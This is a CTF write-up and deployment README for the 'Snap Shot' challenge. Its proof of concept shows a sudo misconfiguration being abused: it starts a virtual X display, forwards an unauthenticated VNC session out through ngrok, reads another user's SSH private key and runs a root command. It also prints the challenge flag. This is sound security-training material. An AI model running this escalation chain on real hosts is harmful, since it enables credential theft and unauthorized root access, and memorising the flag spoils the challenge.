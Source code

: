 ## Judul Soal
Snap Shot

## Deskripsi Soal

> I was told by someone that he bought me a gift. Unfortunately, I need to have a proper access to grab it <br><br>`nc ip port`<br><br>Note: The service used Paramiko SSH module instead of traditional SSH prompt

---
## Proof of Concept

- Log in using CTFd account to get access to remote server
- By checking user privileges, we found that we can execute `display` as `joints` user
    ```sh
    $ sudo -l
    User user may run the following commands on 76a6f93ed1a9:
        (joints) NOPASSWD: /usr/bin/display
    ```
- Since there're no X11 Display, we need to create ones. Note, since it's using `paramiko` the `&` character may not work as expected. Fortunately, the command still executed
    ```sh
    $ Xvfb :4000 -listen tcp -ac -screen 0 512x512x24 &
    ```
- Since `display` only accept image binary, we need to download an image to the server
    ```sh
    $ wget -O test.png https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png
    ```
- Execute `display` on `test.png` using `:4000` as virtual X11 display & `joints` user. These step can also be replaced by using an external remote display from a Public IP
    ```sh
    $ DISPLAY=:4000 sudo -u joints display test.png &
    ```
- Forward X11 display as VNC traffic
    ```sh
    $ x11vnc -display :4000 -bg -forever -nopw -quiet -listen localhost -xkb
    ```
- Then, simply forward VNC traffic to Public IP using `ngrok` or `SSH Forward`
- Connect to VNC remote server & using `File` prompt, go to `/home/joints/.ash_history` that contains a history of `id_rsa` being downloaded. There's also an `id_rsa` on `/home/joints/.ssh/id_rsa` but it can't be copy-paste-ed
- Download `id_rsa` from the external link & remote ssh as `joints` user from `localhost`. If we check the privileges again we found that `joints` user has privileges to execute `/root/get_flag`
    ```sh
    $ ssh -o "StrictHostKeyChecking no" -p 2222 -i id_rsa joints@localhost sudo -l

    User joints may run the following commands on 76a6f93ed1a9:
        (root) NOPASSWD: /root/get_flag
    ```
- Finally, just execute `/root/get_flag` using `joints` user
    ```sh
    $ ssh -o "StrictHostKeyChecking no" -p 2222 -i id_rsa joints@localhost sudo /root/get_flag

    JOINTS21{forw4rding_x11_traffics_4re_k1nda_fun_e1683a}
    ```
---

## Catatan deployment

Konfigurasi `docker` ada di directory `server`. Ganti `port` & limit mem-cpu sesuai kebutuhan.

Note, service nya masih hasil `trial & error`, jadi kemungkinan bisa broken sewaktu2 :'v

```sh
# Build
$ docker-compose build

# Deploy pake swarm ya, udah saya kecilin spec nya :v
$ docker stack deploy --compose-file docker-compose.yml snapshot
```

## Flag
JOINTS21{forw4rding_x11_traffics_4re_k1nda_fun_e1683a}
